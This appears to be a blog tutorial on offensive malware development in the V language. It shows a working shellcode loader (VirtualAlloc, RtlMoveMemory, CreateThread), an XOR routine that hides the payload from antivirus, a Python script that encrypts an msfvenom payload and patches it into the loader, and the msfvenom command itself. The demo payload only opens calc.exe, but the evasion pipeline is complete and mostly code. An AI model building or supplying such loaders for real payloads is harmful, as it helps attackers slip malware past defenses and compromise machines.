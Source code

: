 ```yaml
---
layout: single
title:  "OffensiVe Security with V 3 - XOR"
date:   2022-07-20 16:54:50 -0500
categories: app-development
tags: vlang windows
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [injection process](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/) of a **shellcode** in **V** was detailed, in this part another **injection technique** with **XOR encryption** will be investigated in order to mitigate **AV defenses**.

> Previous part in: https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/

## Process Injection with XOR encrypted payload

From a basic **shellcode** injection it is possible to **encrypt** the payload in order to make malware reversing difficult or even reduce the number of **AV** detections. An **XOR encryption** of the shellcode will be implemented.

To do this, the following code will be used, which shows a memory injection of a shellcode.

`4_XORShellcode.v`

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    shellcode := []
    inject(shellcode)
}
```

>    time.sleep() is now more flexible and consistent, like in Go:
    time.sleep(10 * time.second) instead of time.sleep(10)
    time.sleep(10 * time.millisecond) instead of time.sleep_ms(10)


Encrypting the shellcode is useful for bypassing **AVs** or making reverse engineering difficult. In this case, it will be obtained by adding a **function** called **XOR** `fn xor` whose utility is to perform an **XOR decryption** with a **private key**. This is a **symmetric encryption**, so it is possible to use the same key for encryption and decryption.

```c
fn xor(shellcode []byte, key []byte) []byte {
    mut output := []byte{}
    for i := 0; i < shellcode.len; i++ {
        output << shellcode[i] ^ key[i % key.len]
    }
    return output
}

fn main() {
    key := "besecteam"
    EncryptedShellcode := [ byte(0xb8), 0xa8, 0xcd, ...]
    DecryptedShellcode := xor(EncryptedShellcode, key.bytes())
    inject(DecryptedShellcode)
}
```

After adding the function in the **V script**, it is necessary to encrypt a shellcode with the same private key. For this, the following script in **Python** will be developed.

`4_XORShellcode_cipher.py`

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '[ byte(0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' ]'
    ciphertext = ciphertext[:11] + ')' + ciphertext[11:]
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
key = "besecteam"

## payload calc.exe
plaintext = b'\xda\xcd\xbe\xa9\xf7\x04\x1e\xd9t$\xf4Z+\xc9\xb111r\x18\x83\xc2\x04\x03r\xbd\x15\xf1\xe2U[\xfa\x1a\xa5<r\xff\x94|\xe0\x8b\x86Lb\xd9*&&\xca\xb9J\xef\xfd\n\xe0\xc90\x8bY)R\x0f\xa0~\xb4.ks\xb5w\x96~\xe7 \xdc-\x18E\xa8\xed\x93\x15<vG\xed?W\xd6ffw\xd8\xab\x12>\xc2\xa8\x1f\x88y\x1a\xeb\x0b\xa8S\x14\xa7\x95\\\xe7\xb9\xd2Z\x18\xcc*\x99\xa5\xd7\xe8\xe0q]\xebB\xf1\xc5\xd7s\xd6\x90\x9c\x7f\x93\xd7\xfbc";p\x9f\xaf\xbaW\x16\xeb\x98ss\xaf\x81"\xd9\x1e\xbd5\x82\xff\x1b=.\xeb\x11\x1c$\xea\xa4\x1a\n\xec\xb6$:\x85\x87\xaf\xd5\xd2\x17z\x92-R\'\xb2\xa5;\xbd\x87\xab\xbbk\xcb\xd5?\x9e\xb3!_\xeb\xb6n\xe7\x07\xca\xff\x82\'y\xff\x86K\x1c\x93K\xa2\xbb\x13\xe9\xba'

ciphertext, p_key = xor_encrypt(plaintext, key)

# open and replace our payload in C++ code
tmp = open("./4_XORShellcode.v", "rt")
data = tmp.read()
data = data.replace('shellcode := []', 'shellcode := ' + ciphertext)
tmp.close()
tmp = open("./4_XORShellcode_mod.v", "w+")
tmp.write(data)
tmp.close()
```

The payload will be generated with **msfvenom** and added to the script.

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00' \
  -f raw -o calc.bin && python3 \
  -c "plaintext = open('./calc.bin', 'rb').read();print(plaintext)" | \
  xclip
```

Once the **Python** script is executed, it will generate a file called `4_XORShellcode_mod.v`.

```bash
python3 4_XORShellcode_cipher.py
v 4_XORShellcode_mod.v
```

`4_XORShellcode_mod.v` will be compiled with **V** to generate the `4_XORShellcode_mod.exe` executable.

